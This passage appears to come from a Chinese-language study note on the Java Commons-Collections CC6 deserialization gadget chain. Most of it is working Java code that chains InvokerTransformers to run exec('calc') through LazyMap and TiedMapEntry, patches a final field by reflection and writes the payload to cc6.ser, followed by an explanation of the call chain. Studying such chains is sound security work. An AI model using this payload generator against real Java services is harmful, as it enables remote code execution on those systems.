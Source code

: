 ```java
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"})
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
        HashMap<Object, Object> map = new HashMap<>();
        Map lazyMap = LazyMap.decorate(map, new ConstantTransformer("godown"));
        TiedMapEntry tiedMapEntry = new TiedMapEntry(lazyMap, "test1");
        HashMap<Object, Object> hashMap = new HashMap<>();
        hashMap.put(tiedMapEntry, "test2");
        map.remove("test1");
        Class lazymapClass = lazyMap.getClass();
        Field factory = lazymapClass.getDeclaredField("factory");
        factory.setAccessible(true);
        Field modifiersField = Field.class.getDeclaredField("modifiers");
        modifiersField.setAccessible(true);
        modifiersField.setInt(factory, factory.getModifiers() & ~Modifier.FINAL);
        factory.set(lazyMap, chainedTransformer);
        serialize(hashMap);
//        unserialize("cc6.ser");
    }

    public static void serialize(Object obj) throws Exception {
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("cc6.ser"));
        oos.writeObject(obj);
        oos.close();
    }
    public static Object unserialize(String filename) throws Exception {
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(filename));
        Object obj = ois.readObject();
        ois.close();
        return obj;
    }
}
```

```java
HashMap.readObject()->hash()->
    TiedMapEntry.hashCode()->getValue()->
    	LazyMap.get()->
    		chainedTransformer.transform()
```

在HashMap.put添加TiedMapEntry时，触发了hash()，所以先LazyMap绑定的常量ConstantTransformer。

而且hashMap.put时，调用至TiedMapEntry.getValue()->LazyMap.get，把TiedMapEntry当前的key和transform的结果put进map了，也就是test1。第二次就不会进if，所以payload remove了该键。

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20240806144728449.png)

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20240806144522352.png)
